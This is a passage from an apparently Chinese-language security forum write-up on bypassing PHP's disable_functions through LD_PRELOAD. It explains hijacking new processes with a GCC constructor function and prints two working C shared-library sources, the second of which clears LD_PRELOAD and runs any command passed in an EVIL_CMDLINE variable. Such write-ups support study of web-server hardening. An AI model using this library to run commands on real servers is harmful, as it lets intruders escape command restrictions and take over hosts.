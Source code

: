![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-a95964642f7679dd4e401e5a34bc9e4747694cc8.png)

### 劫持系统新进程

我们可以发现，上面的情况实际上导致了我们的攻击面是非常窄小的，我们在实际情况中很容易就会出现并没有安装 sendmail 的情况，就和我一开始进行测试的时候一样 www-data 权限又不可能去更改 php.ini 配置、去安装 sendmail 软件等。那么有没有什么其他的方法呢？

`https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD`

> 设想这样一种思路：利用漏洞控制 web 启动新进程 a.bin（即便进程名无法让我随意指定），a.bin 内部调用系统函数 b()，b() 位于系统共享对象 c.so 中，所以系统为该进程加载共 c.so，我想法在 c.so 前优先加载可控的 c\_evil.so，c\_evil.so 内含与 b() 同名的恶意函数，由于 c\_evil.so 优先级较高，所以，a.bin 将调用到 c\_evil.so 内 b() 而非系统的 c.so 内 b()，同时，c\_evil.so 可控，达到执行恶意代码的目的。基于这一思路，将突破 disable\_functions 限制执行操作系统命令这一目标，大致分解成几步在本地推演：查看进程调用系统函数明细、操作系统环境下劫持系统函数注入代码、找寻内部启动新进程的 PHP 函数、PHP 环境下劫持系统函数注入代码。

系统通过 LD\_PRELOAD 预先加载共享对象，如果能找到一个方式，在加载时就执行代码，而不用考虑劫持某一系统函数，那么就完全可以不依赖 sendmail 了。

这里场景让人不禁联想到构造方法，师傅们最后找到了在 GCC 中有一个 C 语言的扩展修饰符 `__attribute__((constructor))` ，这个修饰符可以让由它修饰的函数在 main() 之前执行，如果它出现在我们的动态链接库中，那么我们的动态链接库文件一旦被系统加载就将立即执行`__attribute__((constructor))` 所修饰的函数。

这样就将我们的格局打开了，我们要做的是劫持动态链接库这个共享对象本身，而不是单独局限于劫持某几个函数。

以劫持 ls 为例，我们之前所做的就是找到 ls 命令所调用的某一个动态链接库，然后对其进行劫持。但是我们在这里完全可以使用`__attribute__((constructor))` 自动加载之后来直接对 ls 命令进行劫持

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    unsetenv("LD_PRELOAD");
    system("id");
}
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-504d78e1f22f972616809826cbcd5a80c85ba2ef.png)

成功劫持，只要启动了进程便会进行劫持

- - - - - -

这里是上面链接提供的动态链接库的源文件

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```